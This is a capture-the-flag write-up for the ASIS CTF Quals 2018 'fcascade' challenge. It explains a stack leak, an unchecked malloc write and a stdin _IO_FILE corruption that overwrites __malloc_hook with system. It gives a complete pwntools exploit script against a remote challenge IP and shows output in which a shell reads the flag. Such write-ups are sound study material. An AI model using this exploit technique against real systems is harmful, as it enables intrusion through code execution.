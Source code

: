 ```yaml
---
layout: post
category: Pwn
title: ASIS CTF Quals 2018 fcascade
tags: 
    - kowu
---
```


We were only provided with the binary. A first look at the challenge revealed an obvious memory leak (in the 'leak' function).
It was reading input without zero terminating into a buffer on the stack and printing it out afterwards.
We can dump some old stack content with this method. On my local machine I found out that one interesting address in the dump belongs to libc's `__libc_start_main_ret` and we can use it to retrieve libc's base address.
Also a [libc database search](https://libc.blukat.me/?q=__libc_start_main_ret%3A830) revealed that we probably have a `libc6_2.23-0ubuntu[3,7,9,10]_amd64` on the remote target. So far so good.



Besides the 'leak' function there was also a 'ccloud' one.
```c
void ccloud()
{
  size_t size;
  void *buf;

  for (buf = 0LL;;free(buf))
  {
    write(1, "> ", 2uLL);
    _isoc99_scanf("%lu", &size);
    getchar();
    buf = malloc(size);
    write(1, "> ", 2uLL);
    read(0, buf, size);
    *((_BYTE *)buf + size - 1) = 0;
  }
}
```
The bug here resides in the nonexistent return value error handling of malloc. If malloc returns zero, for example if there isn't enough space, the follow up read will fail as well (but not crash). Nevertheless `*((_BYTE *)buf + size - 1) = 0;` will write a zerobyte at `size - 1`. So we can write to a location of our choice! But how to turn this into RCE? The answer lies in how file streams are handled in glibc. Besides kernel buffering there is userland buffering as well for all cstdlib functions with file streams. Let's take a look at the relevant structure `_IO_FILE`.
```c
struct _IO_FILE
{
  int _flags;                /* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;        /* Current read pointer */
  char *_IO_read_end;        /* End of get area. */
  char *_IO_read_base;        /* Start of putback+get area. */
  char *_IO_write_base;        /* Start of put area. */
  char *_IO_write_ptr;        /* Current put pointer. */
  char *_IO_write_end;        /* End of put area. */
  char *_IO_buf_base;        /* Start of reserve area. */
  char *_IO_buf_end;        /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```
`_IO_buf_base` and `_IO_buf_end` are of special interest for us. They define the boundaries of the filestream's buffer. There is no extra field for the size of the buffer, it gets calculated via `end - base`.

![m1](/assets/img/asis_fstream.png)

If we can now overwrite the LSB of `_IO_buf_base` with a zero, we are able to overwrite all the red marked parts of the structure by the next call of scanf. We then simply overwrite the base and end pointers with an address range of our choice and can go get a shell. I used the malloc hook for this purpose. To turn `malloc(size)` into a `system("/bin/sh")` scanf needs to succesfully parse a number wich represents the memoryaddress containing the '/bin/sh' string. As the IO buffer is consuming all it's bytes first before reading new ones, it is sufficient to place the number string for fscanf somewhere at the end in the overwritten structure where it doesn't bother (it doesn't seem to bother `_IO_backup_base`). When all bytes are consumed by scanf and getchar new bytes are read at the location of our choice (malloc hook) and the next malloc call will result in a shell.

```python
from pwn import *

# __libc_start_main_ret 830 -> libc6_2.23-0ubuntu[3,7,9,10]_amd64
offset___libc_start_main_ret = 0x020830
offset___IO_2_1_stdin_ = 0x3c48e0
offset_system = 0x045390
offset_str_bin_sh = 0x18cd57


def leaklibc(r):
    r.send("11010110")
    r.recvuntil("> ")
    r.send("A" * 0x98)
    r.recvn(0x98)
    res = r.recvuntil("> ")[:-2]
    res = res + '\x00' * (8 - len(res))
    res = struct.unpack("<Q", res)[0] - offset___libc_start_main_ret
    r.send("11111111")
    r.recvuntil("> ")
    return res


def pwn(r):
    r.recvline()
    r.recvuntil("> ")
    libcbase = leaklibc(r)
    log.info("libc {:x}".format(libcbase))
    _IO_2_1_stdin_ = libcbase + offset___IO_2_1_stdin_

    r.send("10110101")
    r.recvuntil("> ")
    r.send(
        str(_IO_2_1_stdin_ + 0x38 + 1) + "\n" +         # overwrites LSB of _IO_buf_base
        struct.pack("<Q", _IO_2_1_stdin_ + 0x83) * 3 +  # partial new _IO_FILE struct
        struct.pack("<Q", _IO_2_1_stdin_ + 0x220) +     # new buf_base
        struct.pack("<Q", _IO_2_1_stdin_ + 0x240) +     # new buf_end
        "\x00" * 8 + str(libcbase + offset_str_bin_sh)  # number for scanf to parse
    )
    r.recvuntil("> > > ")
    r.send(struct.pack("<Q", libcbase + offset_system) * 4)
    r.interactive()


if __name__ == '__main__':
    pwn(remote('178.62.40.102', 6002))
```
shell :)

```
[x] Opening connection to 178.62.40.102 on port 6002
[x] Opening connection to 178.62.40.102 on port 6002: Trying 178.62.40.102
[+] Opening connection to 178.62.40.102 on port 6002: Done
[*] libc 7f0e51e36000
[*] Switching to interactive mode
> > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > > 
cat /home/pwn/flag
ASIS{1b706201df43717ba2b6a7c41191ec1205fc908d}
```
